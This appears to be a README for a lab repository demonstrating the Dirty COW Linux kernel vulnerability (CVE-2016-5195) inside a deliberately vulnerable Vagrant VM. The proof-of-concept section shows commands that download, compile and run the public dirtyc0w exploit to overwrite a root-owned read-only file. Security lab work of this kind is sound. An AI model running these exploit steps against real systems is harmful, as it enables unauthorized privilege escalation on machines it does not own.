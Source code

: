 # CVE-2016-5195_DirtyCow 

## Vulnerability information

 * Description

	Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."

## vagrant up

```
$ vagrant up
Bringing machine 'vve.test' up with 'virtualbox' provider...
==> vve.test: Importing base box 'debian/wheezy64'...
==> vve.test: Matching MAC address for NAT networking...
==> vve.test: Checking if box 'debian/wheezy64' is up to date...
==> vve.test: Setting the name of the VM: CVE-2016-5195_DirtyCow_vvetest_1518397500434_97609
==> vve.test: Fixed port collision for 22 => 2222. Now on port 2200.
==> vve.test: Clearing any previously set network interfaces...
(snip)
    vve.test: Guest Additions Version: 4.3.18
    vve.test: VirtualBox Version: 5.2
==> vve.test: Configuring and enabling network interfaces...
```

## vagrant ssh

```
$ vagrant ssh
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 08:15:24 2015 from 10.0.2.2
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
```

# POC

## dirtyc0w 

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
```

# Reference 

  * https://dirtycow.ninja/
  * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
  * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  * https://security-tracker.debian.org/tracker/CVE-2016-5195


